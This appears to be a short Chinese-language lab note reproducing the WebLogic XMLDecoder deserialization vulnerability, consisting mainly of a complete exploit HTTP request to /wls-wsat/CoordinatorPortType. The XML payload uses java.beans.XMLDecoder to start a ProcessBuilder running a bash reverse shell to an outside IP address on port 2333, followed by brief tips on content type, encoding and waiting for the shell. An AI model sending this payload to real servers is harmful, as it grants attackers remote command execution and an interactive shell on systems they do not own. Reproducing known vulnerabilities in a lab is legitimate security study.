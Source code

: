 ![image-20220507155540779](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220507155540779.png)

# Weblogic-XMLDecoder漏洞复现

环境已经搭好了

exp

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.121.133:7001
Accept-Encoding: identity
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Content-Type: text/xml;charset=UTF-8
Content-Length: 650

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>/bin/bash -i &gt; /dev/tcp/47.93.248.221/2333 2&lt;&amp;1 0&lt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

Content-Type要用text/xml

还有反弹shell这里可以会存在一些编码问题不然会报错

![image-20220507164152845](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220507164152845.png)

发送后可能要稍微等一会shell才会过来

![image-20220507164242042](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220507164242042.png)
